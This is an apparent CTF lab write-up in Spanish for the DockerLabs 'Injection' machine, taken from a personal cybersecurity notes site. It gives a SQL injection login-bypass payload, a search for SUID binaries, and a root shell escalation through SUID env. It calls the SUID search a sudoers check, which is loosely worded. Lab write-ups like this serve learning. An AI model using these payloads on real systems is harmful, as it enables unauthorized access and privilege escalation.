

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/dockerlabs/injection/index.html · generator: mkdocs

# Injection

SQL Injection, validación para que siempre se cumpla que
`admin' or 1=1-- -`

Escalar privilegios > comprobamos qué binarios están disponibles a nivel de sudoers:
`find / -perm -4000 2>/dev/null`
> /usr/bin/env

El binario env cuando tiene permisos SUID tiene una escalada de privilegios
Para poder ejecutar hay que estar en el directorio /usr/bin
>`./env /bin/sh -p`
